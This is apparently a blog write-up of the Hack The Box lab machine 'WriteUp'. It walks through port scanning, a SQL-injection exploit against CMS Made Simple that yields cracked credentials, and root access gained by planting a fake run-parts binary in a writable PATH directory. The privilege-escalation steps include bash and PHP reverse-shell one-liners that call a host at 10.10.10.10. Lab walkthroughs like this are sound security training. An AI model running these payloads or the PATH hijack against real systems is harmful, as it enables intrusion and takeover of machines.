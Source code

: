 ```yaml
---
layout: post
title: WriteUp
categories:
- Hack The Box
---
```


>Another day, a different dream perhaps.
>
>-Alice

Time to get back to the business of learning something new. Today I looked at the WriteUp box. Rated as easy, this box didn't take too long to break, although I must admit I struggled a little bit with privesc simply because I tunnel visioned instead of moving on.

First as always let's start with a port scan to determine what we should be looking at.

```

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Looks like we have an open SSH port and a hosted site. Straight away we see that there is a disallowed entry in **robots.txt**. Let's have a look at the site then check out the `/writeup/` directory.

![WriteUp Landing Page]({{"/images/WriteUp-Landing.png" | https://v0lch0k.github.io/images/WriteUp-Landing.png }})

Doesn't look like there is much here. Take note of the warning `Eeyore DoS protection script that is in place and watches for Apache 40x errors and bans bad IPs.`

We can try dirbuster and run the risk of having our IP blacklisted but let's first have a look at the `/WriteUp/` directory.

![WriteUp Landing Page]({{"/images/WriteUp-Wapp.png" | https://v0lch0k.github.io/images/WriteUp-Wapp.png }})

A few interesting write ups for older machines, but nothing that jumps out at us. Interesting that this part of the site uses a different web application. Namely `CMS Made Simple`. Having a quick look through the the exploit database we come across sever exploits relating to CMSMS.

![WriteUp Exploit DB]({{"/images/WriteUp-Search.png" | https://v0lch0k.github.io/images/WriteUp-Search.png }})

Let's try the SQL Injection one. 

```

python 46635.py -u http://10.10.10.138/writeup/



[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9

```

Looks like it's provided us with a username and a password. Attempting to use this at `/writeup/admin/` proves fruitless.

Let's see where else we could use it. Maybe that open ssh port?

Success

Looks like we can grab the user flag from the home directory.

![WriteUp User Login]({{"/images/WriteUp-User.png" | https://v0lch0k.github.io/images/WriteUp-User.png }})





Now let's see how what we can use for privesc.

`ps aux` shows a few interesting processes but nothing that jumps out at us. Let's run our `LinEnum` scripts and employ the use of `pspy` to watch for any interesting processes or cronjobs.

```
2019/07/22 05:21:01 CMD: UID=0    PID=3937   | /usr/sbin/CRON 
2019/07/22 05:21:01 CMD: UID=0    PID=3938   | /usr/sbin/CRON 
2019/07/22 05:21:01 CMD: UID=0    PID=3939   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
```


Looks like `pspy` picked up a cronjob running out of the root directory. Unfortunately we don't have access to it. Let's keep looking around and check back with `pspy` every once in a while.

Digging around the `LinEnum` output didn't reveal anything that jumps out, other than some `.htpasswd` files.

```

[-] htpasswd found - could contain passwords:
/usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_wrongrelm/.htpasswd
username:wrongrelm:99cd340e1283c6d0ab34734bd47bdc30
4105bbb04
/usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_anon/.htpasswd
username:digest anon:25e4077a9344ceb1a88f2a62c9fb60d8
05bbb04
anonymous:digest anon:faa4e5870970cf935bb9674776e6b26a
/usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/authz_owner/.htpasswd
username:$apr1$1f5oQUl4$21lLXSN7xQOPtNsj5s4Nk/
/usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/file/.htpasswd
username:$apr1$uUMsOjCQ$.BzXClI/B/vZKddgIAJCR.
/usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_time/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
/usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
```

Before we deep dive into these hashes, we should have a look at our `pspy` output. 

```
2019/07/22 05:45:38 CMD: UID=0    PID=4070   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2019/07/22 05:45:38 CMD: UID=0    PID=4071   | run-parts --lsbsysinit /etc/update-motd.d 
2019/07/22 05:45:38 CMD: UID=0    PID=4072   | /bin/sh /etc/update-motd.d/10-uname 
2019/07/22 05:45:38 CMD: UID=0    PID=4073   | sshd: jkr [priv]  
```

That's very interesting, looks like someone sshed in, and as they did a script ran. Testing this out, every time we log in we see the following set of commands run.

```
 sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
```

Looks like this sets the environment path variable for the user every time they log in. Following that it executes `run-parts` to update the motd, and this is all done under UID 0.

Maybe we can hijack this process....

Firstly let's have a look at the path variable. The script first sets it to `/usr/local/bin`, we should take a look at what permissions we have for that directory since the second part of the login script will look for the `run-parts` binary in that folder before finding it in `/bin`.


Looks like we have don't have read permission for the directory, but we do have write. This appears to be our way to root. We should try a simple bash reverse shell here under the guise of the `run-parts` binary.

`bash -i >& /dev/tcp/10.10.10.10/1234 0>&1`

Writing this to a `run-parts` file in the `/usr/local/bin` directory and setting up a listener on our end we attempt to ssh in and trigger the automated script.

Unfortunately, we didn't get a shell back from this method. Let's take a look at the `pspy` output to see if the script was triggered. According to `pspy` everything went as planned. So why didn't we get our shell?
(Note: I spent too long a time trying to figure out why the bash reverse shell wasn't working instead of trying a different shell).
Let's try a different shell, maybe php?

` php -r '$sock=fsockopen("10.10.10.10",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

Using the same method of writing a file under the guise of `run-parts` to `/usr/local/bin` we log in an eagerly await our shell.

Success! Let's grab our root flag, and while we're at it have a look at what that cleanup script is doing. My guess is it simply, periodically cleans up the `/usr/local/bin` directory.

![WriteUp Exploit DB]({{"/images/WriteUp-Root.png" | https://v0lch0k.github.io/images/WriteUp-Root.png }})